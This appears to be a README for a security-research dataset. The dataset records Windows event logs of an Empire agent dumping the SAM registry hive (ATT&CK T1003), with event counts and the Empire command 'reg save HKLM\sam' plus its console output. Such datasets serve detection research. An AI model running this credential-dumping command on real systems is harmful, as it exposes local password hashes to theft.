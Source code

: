
# Empire Reg Dump SAM

An adversary with administrator privileges can use the windows reg utility to dump the SAM registry hive.

## Technique(s) ID

T1003

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_reg_dump_sam.tar.gz](./empire_reg_sam.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19022540

## About this file

| log_name                                 | source_name                         | task                                                   |   record_number |
|------------------------------------------|-------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | PowerShell                          | Pipeline Execution Details                             |             186 |
| Security                                 | Microsoft-Windows-Security-Auditing | Filtering Platform Connection                          |             339 |
| Security                                 | Microsoft-Windows-Security-Auditing | User Account Management                                |              74 |
| Security                                 | Microsoft-Windows-Security-Auditing | Token Right Adjusted Events                            |              49 |
| Security                                 | Microsoft-Windows-Security-Auditing | Process Creation                                       |               8 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logoff                                                 |               7 |
| Security                                 | Microsoft-Windows-Security-Auditing | Sensitive Privilege Use                                |               7 |
| Security                                 | Microsoft-Windows-Security-Auditing | Authorization Policy Change                            |               6 |
| Security                                 | Microsoft-Windows-Security-Auditing | Group Membership                                       |               5 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logon                                                  |               5 |
| Security                                 | Microsoft-Windows-Security-Auditing | Special Logon                                          |               5 |
| Security                                 | Microsoft-Windows-Security-Auditing | Process Termination                                    |               4 |
| Security                                 | Microsoft-Windows-Security-Auditing | Detailed File Share                                    |               2 |
| Security                                 | Microsoft-Windows-Security-Auditing | Other Object Access Events                             |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             354 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             278 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |             114 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |              69 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              24 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              22 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               7 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               4 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-PowerShell/Operational | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |             153 |
| Microsoft-Windows-DNS-Client/Operational | Microsoft-Windows-DNS-Client        | na                                                     |             377 |

## Empire Activity

```
shell reg save HKLM\sam sam
```

```
[*] Tasked FD6A3MGY to run TASK_SHELL
[*] Agent FD6A3MGY tasked with task ID 8
(Empire: FD6A3MGY) > ..Command execution completed.

(Empire: FD6A3MGY) >
```